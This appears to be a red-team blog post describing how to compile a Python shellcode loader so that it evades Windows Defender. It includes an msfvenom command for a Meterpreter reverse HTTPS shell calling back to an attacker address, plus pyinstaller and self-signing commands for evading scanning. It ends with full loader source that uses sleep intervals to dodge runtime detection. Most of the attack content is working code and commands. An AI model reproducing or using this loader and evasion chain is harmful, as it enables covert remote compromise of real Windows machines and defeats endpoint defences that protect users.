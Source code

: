 ```yaml
---
layout: "post"
title: "Pythonic Malware: Evading Detection with Compiled Executables"
date: "2022-04-11"
description: 
authors: ["m8sec"]
categories: ["Windows"]
tags: ["evasion"]
image: 
    path: "/assets/img/categories/windows.png"
pin: false
toc: true
---
```




Creating Python executables during an offensive security engagement used to be an effective method of evasion. However, this tactic has become increasingly difficult on modern Windows endpoints.

In fact, even benign programs seem to get blocked immediately after touching disk. This is just one of the reasons red teamers have moved away from popular frameworks such as [Veil-Evasion](https://github.com/Veil-Framework/Veil-Evasion) and onto bigger-better things.

This post revisits compiled Pythons use in offensive security testing and shares my experiences launching Meterpreter shells on a fully patched Windows 10 system against Windows Defender.


## Malware Creation
Given my primary focus was on evasion tactics in the compiled executable, I created a simple shellcode loader as my “malware”. The script called common Windows functions such as `VirtualAlloc` & `CreateThread` to inject shellcode locally within the current process.

The payload itself utilized a `reverse_https` connection over port 443 and was generated by MSFVenom, without any encoding or obfuscation techniques:

```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.157 LPORT=443 -f py
```

At this point, I didnt have much faith in the code and thought it was sure to get detected. However, when attempting to execute the Python script directly, no alerts were triggered and a reverse connection was established.

![](/assets/img/posts/pythonic-malware/pm1_1.png){: .shadow}


## Compiling Python
Despite triggering a successful Meterpreter shell, we cant rely on Python being installed on every Windows workstation. Therefore, the next step is to compile the source code — making it executable without needing any additional resources on the host.

Compiling Python is performed using tools like `pyinstaller`, `py2exe`, or `cx_freeze`. These work by wrapping the bytecode version (`.pyc`) of the script and all required dependencies/interpreters into a single `.exe` file:


```bash
pyinstaller --onefile .\shellcode_loader.py
```

Unfortunately, when downloading the newly compiled `shellcode_loader.exe` onto the target system, I didnt get very far before receiving the following alert:

![](/assets/img/posts/pythonic-malware/pm1_2.png){: .shadow}


## Evading Detection
### Code Signing
At this point, I thought about potential strategies to avoid detection and looked into signing the executable with a self-signed certificate.

Using the Visual Studio Developer Command Prompt, I executed the following commands to generate a certificate and sign the `shellcode_loader.exe` file.


```bash
>> makecert /r /h 0 /eku "1.3.6.1.5.5.7.3.3,1.3.6.1.4.1.311.10.3.13" /e 12/12/2025 /sv m8.pvk m8.cer
>> pvk2pfx /pvk m8.pvk /spc m8.cer /pfx m8.pfx
>> signtool sign /a /fd SHA256 /f m8.pfx shellcode_loader.exe
```

Now, looking at the files properties, “Joes-Software-Emporium” was listed under Digital Signature details— (*Microsoft Default*). With that, the executable could be downloaded without detection.

![](/assets/img/posts/pythonic-malware/pm1_3.png){: .shadow}


### Sleep Intervals
Although I was able to download the file, Windows Defender still flagged the program when attempting execution. Thats when I remembered reading [F-Secures post](https://labs.f-secure.com/blog/bypassing-windows-defender-runtime-scanning/) about evading Windows Defender Runtime Scanning, which provided lots of great takeaways.

In short, I found adding various sleep intervals between the Win32 API calls bypassed runtime scanning and successfully triggered a working reverse shell.

![](/assets/img/posts/pythonic-malware/pm1_4.png){: .shadow}


## Conclusion
A compiled Python executable wouldnt be my first choice in a true red teaming engagement. However, this was a fun proof-of-concept and may prove useful in other areas of offensive security testing.


## Source Code:
A final copy of my `shellcode_loader.py` script is available below:
```python
import sys
import ctypes
import hashlib
from time import sleep
import ctypes.wintypes as wt
from base64 import b64decode
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad

def DecryptXOR(data, key):
    # Optional xor decryption method (not in use)
    data = bytearray(b64decode(data))
    l = len(key)
    keyAsInt = [x for x in map(ord, key)]
    return bytes(bytearray(((data[i] ^ keyAsInt[i % l]) for i in range(0,len(data)))))

def DecryptAES(data, key):
    # Optional AES decryption method (not in use)
    data = bytearray(b64decode(data))
    key = bytearray(b64decode(key))
    iv = 16 * b'\x00'
    cipher = AES.new(hashlib.sha256(key).digest(), AES.MODE_CBC, iv)
    return cipher.decrypt(pad(data, AES.block_size))

# msfvenom -p windows/x64/meterpreter/reverse_http lhost=0.0.0.0 lport=443 -f py
buf =  b""

try:
    # Function definitions
    kernel32 = ctypes.windll.kernel32

    kernel32.VirtualAlloc.argtypes = (wt.LPVOID, ctypes.c_size_t, wt.DWORD, wt.DWORD)
    kernel32.VirtualAlloc.restype = wt.LPVOID

    kernel32.CreateRemoteThread.argtypes = (wt.HANDLE, wt.LPVOID, ctypes.c_size_t, wt.LPVOID, wt.LPVOID, wt.DWORD, wt.LPVOID)
    kernel32.CreateThread.restype = wt.HANDLE

    kernel32.RtlMoveMemory.argtypes = (wt.LPVOID, wt.LPVOID, ctypes.c_size_t)
    kernel32.RtlMoveMemory.restype = wt.LPVOID

    kernel32.WaitForSingleObject.argtypes = (wt.HANDLE, wt.DWORD)
    kernel32.WaitForSingleObject.restype = wt.DWORD

    # Start Shellcode loader
    print("[+] Starting shellcode loader:")

    memAddr = kernel32.VirtualAlloc(None, len(buf), 0x3000, 0x40)
    print('[*] Allocated memory space at: {:08X}'.format(memAddr))

    print('[*] Interval sleep to avoid runtime detection (1/2).')
    sleep(5)

    kernel32.RtlMoveMemory(memAddr, buf, len(buf))
    print('[*] Copied payload into memory.')

    print('[*] Interval sleep to avoid runtime detection (2/2).')
    sleep(5)

    th = kernel32.CreateThread(
        ctypes.c_int(0),
        ctypes.c_int(0),
        ctypes.c_void_p(memAddr),
        ctypes.c_int(0),
        ctypes.c_int(0),
        ctypes.pointer(ctypes.c_int(0))
    )
    print('[*] Created thread in current process.')

    kernel32.WaitForSingleObject(th, -1)
except KeyboardInterrupt:
    print("[!] Key detected, closing")
    sys.exit(1)
except Exception as e:
    print("[-] Error: {}".format(str(e)))
    sys.exit(0)
```
